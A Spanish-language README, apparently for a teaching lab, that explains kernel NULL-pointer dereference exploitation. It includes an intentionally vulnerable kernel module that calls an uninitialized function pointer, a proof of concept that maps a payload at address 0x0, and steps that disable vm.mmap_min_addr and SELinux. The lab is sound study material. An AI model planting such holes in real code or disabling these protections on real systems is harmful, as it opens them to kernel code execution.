 Explotando la técnica Null Dereference
====================================

Este modulo y su POC demuestran como una referencia a NULL en el kernel puede causar ejecución de código arbitrario en nuestro sistema. Es difícil saber el año en que se comenzó a explotar esta técnica, pero según un artículo de John Corbet[1] parece ser que fue por 2009. Desde entonces se ha restringido el acceso a las zonas bajas de memoria del usuario, mitigando el problema de las referencias nulas mediante configuraciones con sysctl y SELinux. 

¿Cómo funciona todo esto?
=========================

Lo primero es desactivar las protecciones de memorias bajas de sysctl y SELinux. Lo segundo es cargar un módulo que tiene un principal objetivo: que cada vez que escribamos en su /proc/nullderef, se llame a una función que ha sido declarada pero no inicializada, es decir, a una funcion no referenciada:

```
void (*my_dereference_funptr)(void);  //Declarada pero no inicializada

ssize_t write_proc(struct file *filp,const char *buf,\
                   size_t count,loff_t *offp)
{
  my_dereference_funptr();            //Llamada a una función sin inicializar
  return count;
}
```

De esta forma, al no estar inicializada, la función tendrá como valor por defecto una dirección nula(la dirección 0x0); y al ejecutarla hará que se salte a 0x0, que es válida y conocida por el proceso en su espacio de usuario. 

El POC lo único que hace es cargar un payload en la dirección $0 y posteriormente escribir en /proc/nullderef para que se llame a la función write de arriba:

```
  memcpy(0, payload, sizeof(payload));        //Cargamos el payload en 0x0
  int fd = open("/proc/nullderef", O_WRONLY); 
  write(fd, "null dereference", 3);           //Y provocamos la llamada a una referencia nula en el kernel
```

Todo lo anterior acabará fatídicamente como un "RIP: 00:41414141. Bad RIP Value" en los registros del sistema, que es justamente el payload que cargamos en nuestro POC (jump 0x41414141).

Compilación
===========

Para compilar el proyecto, siga los siguientes pasos.

  1. cd module && make
  2. cd ..
  3. cd poc && make
  4. cd ..
  
Una vez compilado, cargamos el módulo, el cual habilitará una entrada en el sistema de ficheros /proc, llamada /proc/nullderef:
  
  5. sudo insmod module/nullderef_module.ko
 
Para que el sistema nos permita utilizar la técnica de null dereference debemos permitir que el usuario tenga acceso a zonas bajas de memoria, concretamente a la dirección 0x00000000, que es la clave de esta técnica.
  
  6. sudo sysctl -w vm.mmap_min_addr="0"

También, en el caso de tenerlo habilitado, debemos desactivar temporalmente SELinux, ya que también añade medidas de seguridad para prohibir al usuario accesos a zonas bajas de memoria. 
  
  7. sudo setenforce 0

Una vez desactivadas las barreras, ya podemos accedes y escribir en la dirección 0x0. Ejecutamos el POC, que lo que hará será modificar el EIP/RIP a 0x41414141, demostrando que la ejecución de código es posible.

  8. ./proc/proc_exec

El resultado final lo podemos ver en los log del kernel:
  
  9. dmesg | tail
     
     **RIP: 0010:0x41414141** RSP:0033:0x7ffff7af8ea4

[1] https://lwn.net/Articles/342330/
